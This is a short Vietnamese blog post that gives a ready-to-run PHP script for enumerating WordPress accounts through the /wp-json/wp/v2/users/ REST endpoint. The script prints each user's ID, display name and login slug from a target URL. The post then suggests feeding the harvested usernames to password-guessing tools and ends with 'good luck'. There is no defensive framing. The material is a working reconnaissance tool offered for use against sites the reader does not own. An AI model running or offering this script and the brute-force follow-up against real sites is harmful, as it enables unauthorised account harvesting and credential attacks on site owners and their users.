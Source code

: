```yaml
---
title: Tiết lộ Người dùng WordPress
date: 23/06/2021
layout: single
--- 
```



# Mô Tả 
Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài 



## Hướng dẫn
Thay đổi url trong đoạn code dưới đây 
```shell 
php file.php
```
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/  )
```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "http://tagert"; # url 
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}


?>

```

![](/assets/images/10.PNG)
Có thể thấy User ID Name đã được dump ra :D
Với tài khoản trên, bạn có thể sử dụng các công cụ dò mật khẩu để truy ra nó :D

## Chúc may mắn :D

